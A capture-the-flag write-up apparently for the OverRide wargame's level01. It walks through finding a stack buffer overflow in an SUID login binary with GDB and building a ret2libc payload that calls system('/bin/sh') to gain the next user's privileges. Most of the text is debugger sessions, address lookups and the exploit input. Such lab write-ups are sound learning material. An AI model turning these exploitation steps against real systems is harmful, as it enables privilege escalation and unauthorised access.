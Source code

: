 # Tools
[Dogbolt - Decompiler Explorator](https://dogbolt.org/)
[Cutter - Reverse Engineering Tool](https://cutter.re/)

# Exploit
The home of the level01 contians a binary, `level01`, that has an SUID bit set, and his owned by level02.

Using Dogbolt, we quicly identify a few misconceptions (see source.c for details):
1. A global variable we have control over.
2. Memory writing bigger than the size of the buffer they are writing in.

We identify using the source code that the expected username is "dat_wil" and the expected password is "admin", even though it still makes the program fails.
I start the program with GDB, and setup a breakpoint at the `verify_user_name()` call in the `main` function:
```
(gdb) b *0x0804852d
Breakpoint 1 at 0x804852d
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wilAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x0804852d in main ()
(gdb) i var
...
0x0804a040  a_user_name
...
```
Now, if we look at the content of `a_user_name`:
```
(gdb) x/20x 0x0804a040
0x804a040 <a_user_name>:        0x5f746164      0x416c6977      0x41414141      0x41414141
0x804a050 <a_user_name+16>:     0x41414141      0x41414141      0x41414141      0x41414141
0x804a060 <a_user_name+32>:     0x41414141      0x41414141      0x41414141      0x41414141
0x804a070 <a_user_name+48>:     0x41414141      0x0a414141      0x00000000      0x00000000
```
We see the repsentation of "dat_wil" followed by the 'A's we wrote. 
Then, we add another breakpoint at the `verify_user_pass()` call, continue the program and input 100 'B's in the password input:
```
(gdb) b verify_user_pass
Breakpoint 2 at 0x80484a8
(gdb) c
Continuing.
verifying username....

Enter Password: 
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Breakpoint 2, 0x080484a8 in verify_user_pass ()
(gdb) c
Continuing.
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) i r
eax            0x1      1
ecx            0xffffffff       -1
edx            0xf7fd08b8       -134412104
ebx            0x42424242       1111638594
esp            0xffffd7a0       0xffffd7a0
ebp            0x42424242       0x42424242
esi            0x0      0
edi            0x42424242       1111638594
eip            0x42424242       0x42424242
eflags         0x10282  [ SF IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
```
As we can see, `eip` is now `0x42424242`, or "BBBBB", which means that we successfuly hijacked the process execution flow.

To exploit that stack buffer overflow, we are going to make use of a `ret2libc`.
The libc contains primarly two interesting functions for us:
- `system()`
- `excve()`

Using `system("/bin/sh")`, we can spawn a shell withut having to write any shellcode.
Get the address of `system` using GDB:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
However, returning on `system()` alone won't do much, we need to pass it a string with the command we want to execute.

To illustrate that, let's create a simple program that calls `system("/bin/sh");` and show its instructions with GDB:
```c
#include <stdlib.h>

int main() {
	system("/bin/sh");
	return 0;
}
```
Disassembling the `main()` functuon with GDB:
```
(gdb) disass main
Dump of assembler code for function main:
   0x00000000004004f4 <+0>:	push   rbp
   0x00000000004004f5 <+1>:	mov    rbp,rsp
   0x00000000004004f8 <+4>:	mov    edi,0x4005fc
   0x00000000004004fd <+9>:	call   0x4003f0 <system@plt>
   0x0000000000400502 <+14>:	mov    eax,0x0
   0x0000000000400507 <+19>:	pop    rbp
   0x0000000000400508 <+20>:	ret
End of assembler dump.
(gdb) x/s 0x4005fc
0x4005fc:	 "/bin/sh"
```
As we can see, before the call to `system()`, we put the string "/bin/sh" on top of the stack.
Moreover, a call to a function will put the return address on the stack too.

So, when we enter the `system()` function, the stack will be something like (after `call system`):
\+ ---------------------------- +
| Other instructions or data    |
\+ ---------------------------- +
| Return address of system      |
\+ ---------------------------- +
|  `0x4005fc`: str "/bin/sh"    |
\+ ---------------------------- +

Now, we need to find the address of a "/bin/sh" string inside of `libc` or input it in the stack ourselves. I will use the first method. 
To do so, we first need to know the `libc` being used by our program, and then find the string in it.

After running the program in GDB, you can do `info proc map` to get info on the loaded libs:
```
(gdb) info proc map
process 2383
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fd8000 0xf7fdb000     0x3000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
```
The library being used is `/lib32/libc-2.15.so` at starting address `0xf7e2c000`.
Let's examine the library to see where can we locate a "/bin/sh" string:
```bash
strings -a -t x /lib32/libc-2.15.so | grep "/bin/sh"
 15d7ec /bin/sh
```
`strings` returns all human readable strings of a binary. `-a` reads all the file, `-t x` is to print the offset from the beginning of the file in hexadecimal format. 
So, we found a "/bin/sh" string at 0x15d7ec from the starting address of the `libc`, `0xf7e2c000`.
We can confirm that we found that string by printing what's at that address as a string using GDB:
```
(gdb) x/s 0xf7e2c000 + 0x15d7ec
0xf7f897ec:	 "/bin/sh"
```

Now, we have:
- the address of `system()`
- the address of a "/bin/sh" string
- a segfault

We can craft a payload!
We need to cause the segfault, then put the address of system to call it, the return address for system (can be anything), and then the argument for system: "/bin/sh".

Then craft a file containing the username and the payload as the password (one per line):
```
level01@OverRide:~$ echo dat_wil > input.txt && python payload.py >> input.txt
level01@OverRide:~$ cat input.txt
dat_wil
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAЮ��AAAA���
```
And finally `cat` it, (but keep the standard input opened) and execute the binary:
```
level01@OverRide:~$ cat input.txt - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

cd ../level02
cat .pass
```

